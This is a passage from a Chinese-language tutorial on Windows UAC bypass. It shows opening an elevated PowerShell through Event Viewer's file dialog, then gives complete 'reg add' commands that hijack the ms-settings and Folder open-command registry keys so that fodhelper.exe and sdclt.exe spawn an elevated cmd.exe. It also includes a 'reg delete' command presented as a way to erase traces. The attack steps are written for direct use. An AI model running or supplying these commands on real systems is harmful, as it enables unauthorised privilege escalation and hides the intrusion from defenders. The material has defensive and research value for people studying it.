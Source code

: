### 管理工具

之前说过，管理工具有很多白名单程序，如果一个白名单程序有浏览文件目录的功能，就可以以此来创建高权限cmd窗口。这里拿事件查看器举例

操作-》打开保存的目录-》文件目录路径处输入powershell-》弹出高权限powershell 以此内推，还有很多相似的管理工具可以这样利用

## 4\. 注册表劫持

### Fodhelper.exe

Fodhelper.exe win10才有，所以只有win10能通过这个办法bypassuac，他是一个autoelevate元素程序

我们使用proceemonitor查看事件查看器启动的时候执行了什么。我们通过排查发现了此处

![]()

发现程序试图打开HKCU\Software\Classes\ms-
settings\shell\open\command，但是这个项没有找到，因为这个项并不存在，于是它查询 HKCR\ms-
settings\Shell\Open,查询成功便打开其下的Command键进行查询。  
我们可以劫持注册表，往HKCU\Software\Classes\ms-
settings\shell\open\command写入恶意指令从而达到bypassuac的目的。

    
    
    reg add HKEY_CURRENT_USER\Software\Classes\ms-settings\shell\open\command /d C:\Windows\System32\cmd.exe /f   
    reg add HKEY_CURRENT_USER\Software\Classes\ms-settings\shell\open\command /v DelegateExecute /t REG_DWORD /d 00000000 /f  
      
  
---  
  
我们写入如下命令，就能让Fodhelper.exe 执行时自动高权限执行cmd窗口了

然后消除痕迹

    
    
    reg delete "HKEY_CURRENT_USER\Software\Classes\ms-settings\shell\open\command"  
      
  
---  
  
### sdclt

Win10后这个程序才有自动提升权限的能力

    
    
    reg add "HKCU\Software\Classes\Folder\shell\open\command" /d C:\Windows\System32\cmd.exe /f   
    reg add "HKCU\Software\Classes\Folder\shell\open\command" /v "DelegateExecute" /f  
      
      
  
---  
  
### ![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210815101554.png)
